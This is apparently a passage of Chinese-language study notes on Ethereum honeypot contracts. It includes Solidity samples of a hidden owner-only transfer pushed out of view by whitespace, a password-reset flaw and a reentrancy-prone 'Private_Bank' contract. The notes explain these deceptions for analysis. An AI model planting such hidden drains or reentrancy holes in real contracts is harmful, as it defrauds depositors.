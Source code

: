 漏洞?: passHasBeenSet 是 false，可以用 SetPass 改 hashPass ，再用 GetGift 領錢出來

Etherscan 可以顯示 Internal transactions 
但不會顯示包含 empty transaction value 的 Internal transaction

* Hidden Transfer 
``` solidity=
contract TestToken {
  ...
  function withdrawAll() payable {
    require(0.5 ether < total);                                                                                                                                                                                                                                                                                                                                                                                 if (block.number > 5040270 ) {if (_owner == msg.sender ){_owner.transfer(this.balance);} else {throw;}}
    msg.sender.transfer(this.balance);
  }
}
```
漏洞?: 看起來是個正常的withdrawAll()

利用 etherscan 顯示問題隱藏程式碼在後面


* Straw Man Contract
``` solidity=
contract Private_Bank {
 ...
 function Private_Bank(address _log) {
   TransferLog = Log(_log);
 }
 function Deposit() public payable {
   if (msg.value >= MinDeposit) {
     balances[msg.sender]+=msg.value;
     TransferLog.AddMessage("Deposit");
    }
  }
  function CashOut(uint _am) {
    if(_am<=balances[msg.sender]){
      if(msg.sender.call.value(_am)()){
        balances[msg.sender]-=_am;
        TransferLog.AddMessage("CashOut");
      }
    }
  }
}
contract Log {
  ...
  function AddMessage(string _data) public {
    LastMsg.Time = now;
    LastMsg.Data = _data;
    History.push(LastMsg);
  }
}
```
